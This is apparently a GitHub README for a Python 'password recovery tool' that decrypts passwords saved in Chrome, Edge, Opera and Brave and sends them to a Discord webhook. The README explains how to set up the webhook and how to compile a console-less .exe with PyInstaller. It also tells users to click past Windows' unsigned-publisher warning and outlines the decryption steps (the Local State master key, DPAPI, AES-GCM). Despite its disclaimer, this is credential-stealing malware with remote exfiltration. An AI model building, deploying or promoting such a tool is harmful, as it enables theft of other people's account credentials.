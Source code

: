 # 🔐 Chrome, Edge, Opera and Brave Password Recovery Tool 🔐

## 📱 Overview

This tool helps you recover saved passwords from Chrome, Edge, Opera and Brave browsers when you've forgotten them. Perfect for IT professionals who need to retrieve credentials for work purposes or individuals who need to recover their own forgotten passwords.

---

## ✨ Features

- 🔍 Recovers saved passwords from **Chrome**, **Edge**, **Opera**, and **Brave**
- 👤 Works with multiple browser profiles
- 🔄 Automatically decrypt the passwords and send them to **Discord Webhook**
- 📊 Provides a neat summary of recovered credentials
- 🛠️ Can be compiled into a single `.exe` using **PyInstaller**

---

## 🚀 Quick Start

### 📋 Requirements

- Windows operating system
- Python 3.x (for compiling the `.exe`)
- Browsers: Chrome, Brave, Edge, or Opera
- Required Python libraries:
  - `pycryptodomex`
  - `pywin32`
  - `requests`
  - `pyinstaller`
    ```bash
    pip install pycryptodomex pywin32 requests pyinstaller
    ```
- A valid Discord webhook URL

---

### 🌐 Setting Up Your Webhook

1. Create a Discord server (if you don’t have one).
2. Go to **Server Settings > Integrations > Webhooks**
3. Create a new webhook and **copy the URL**
4. In `browser_password_recovery.py`, replace this line:

```python
WEBHOOK_URL = "discord_webhook_url"
```

⚠️ Be sure to replace `discord_webhook_url` with your actual webhook URL where the password data will be sent.

---

### 🐍 Generate the Executable (.exe)

To make the tool portable:

```bash
pyinstaller --onefile --noconsole --hidden-import=pycryptodome --hidden-import=win32crypt --hidden-import=requests .\browser_password_recovery.py
```

The `.exe` will appear in the `dist/` folder (e.g., `dist/browser_password_recovery.exe`).

---

### 4️⃣ Run the Tool

Double-click the `.exe` on a Windows machine where browsers are installed.

The script will:

- Locate saved credentials
- Decrypt them using system-protected keys
- Send them to your Discord webhook 

> ⚠️ If Windows shows an "Unknown Publisher" warning, click **"More info"** then **"Run anyway"** (expected behavior for unsigned executables).

---

## ⚙️ How It Works

1. Locates browser user data folders and encrypted `Login Data` SQLite DBs
2. Extracts the master key from the browser’s `Local State` file
3. Decrypts passwords using **AES-GCM** and Windows Data Protection API
4. Formats and sends results to the specified Discord webhook

---

## 🍄 Example Output
Example of what you'll receive in the webhook:

```
Browser: chrome (Default)
URL: https://example.com/login
Username: admin
Password: password
------------------------
Total credentials: 1
```

---

## 🛑 Important Notes

- This tool is designed for **legitimate password recovery** of your own accounts or within authorized systems
- Always obtain proper authorization before recovering passwords on systems you don't own
- Use responsibly and ethically
